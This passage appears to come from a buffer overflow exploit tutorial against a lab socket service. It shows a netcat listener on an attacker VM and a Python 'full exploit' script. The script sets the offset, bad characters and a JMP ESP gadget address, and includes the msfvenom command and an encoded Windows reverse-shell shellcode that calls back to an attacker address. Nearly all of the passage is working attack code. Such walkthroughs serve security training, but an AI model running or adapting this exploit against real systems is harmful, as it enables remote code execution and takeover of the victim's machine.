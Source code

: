 On your attacker VM listen for a reverse shell:

```bash
$ sudo nc -vlnp 53
[sudo] password for kali: 
listening on [any] 53 ...
```

Adapt the script:

```python
#!/usr/bin/env python3
# Simple socket buffer overflow
# Step 7 - Full Exploit
import socket
import struct

offset = 2005
size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n"         # new line 0x0a
badchars = [ 0x00, 0x0a ]   # found badchars
esp_gadget_address = 0x625011af
esp_gadget = struct.pack("<I", esp_gadget_address)
NOP = b"\x90"

# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.79 LPORT=53 -f py -v payload -e x86/shikata_ga_nai -b '\x00\x0A' EXITFUNC=thread
payload =  b""
payload += b"\xdb\xcf\xd9\x74\x24\xf4\x5a\xbb\x52\xbf\xb0\x52"
payload += b"\x33\xc9\xb1\x52\x83\xea\xfc\x31\x5a\x13\x03\x08"
payload += b"\xac\x52\xa7\x50\x3a\x10\x48\xa8\xbb\x75\xc0\x4d"
payload += b"\x8a\xb5\xb6\x06\xbd\x05\xbc\x4a\x32\xed\x90\x7e"
payload += b"\xc1\x83\x3c\x71\x62\x29\x1b\xbc\x73\x02\x5f\xdf"
payload += b"\xf7\x59\x8c\x3f\xc9\x91\xc1\x3e\x0e\xcf\x28\x12"
payload += b"\xc7\x9b\x9f\x82\x6c\xd1\x23\x29\x3e\xf7\x23\xce"
payload += b"\xf7\xf6\x02\x41\x83\xa0\x84\x60\x40\xd9\x8c\x7a"
payload += b"\x85\xe4\x47\xf1\x7d\x92\x59\xd3\x4f\x5b\xf5\x1a"
payload += b"\x60\xae\x07\x5b\x47\x51\x72\x95\xbb\xec\x85\x62"
payload += b"\xc1\x2a\x03\x70\x61\xb8\xb3\x5c\x93\x6d\x25\x17"
payload += b"\x9f\xda\x21\x7f\xbc\xdd\xe6\xf4\xb8\x56\x09\xda"
payload += b"\x48\x2c\x2e\xfe\x11\xf6\x4f\xa7\xff\x59\x6f\xb7"
payload += b"\x5f\x05\xd5\xbc\x72\x52\x64\x9f\x1a\x97\x45\x1f"
payload += b"\xdb\xbf\xde\x6c\xe9\x60\x75\xfa\x41\xe8\x53\xfd"
payload += b"\xa6\xc3\x24\x91\x58\xec\x54\xb8\x9e\xb8\x04\xd2"
payload += b"\x37\xc1\xce\x22\xb7\x14\x40\x72\x17\xc7\x21\x22"
payload += b"\xd7\xb7\xc9\x28\xd8\xe8\xea\x53\x32\x81\x81\xae"
payload += b"\xd5\xa4\x55\xb2\x6a\xd1\x57\xb2\x74\x14\xd1\x54"
payload += b"\x1e\x46\xb7\xcf\xb7\xff\x92\x9b\x26\xff\x08\xe6"
payload += b"\x69\x8b\xbe\x17\x27\x7c\xca\x0b\xd0\x8c\x81\x71"
payload += b"\x77\x92\x3f\x1d\x1b\x01\xa4\xdd\x52\x3a\x73\x8a"
payload += b"\x33\x8c\x8a\x5e\xae\xb7\x24\x7c\x33\x21\x0e\xc4"
payload += b"\xe8\x92\x91\xc5\x7d\xae\xb5\xd5\xbb\x2f\xf2\x81"
payload += b"\x13\x66\xac\x7f\xd2\xd0\x1e\x29\x8c\x8f\xc8\xbd"
payload += b"\x49\xfc\xca\xbb\x55\x29\xbd\x23\xe7\x84\xf8\x5c"
payload += b"\xc8\x40\x0d\x25\x34\xf1\xf2\xfc\xfc\x11\x11\xd4"
payload += b"\x08\xba\x8c\xbd\xb0\xa7\x2e\x68\xf6\xd1\xac\x98"
payload += b"\x87\x25\xac\xe9\x82\x62\x6a\x02\xff\xfb\x1f\x24"
payload += b"\xac\xfc\x35"

buf = b""
buf += b"TRUN /."
buf += b"A" * offset
buf += esp_gadget        # JMP ESP
```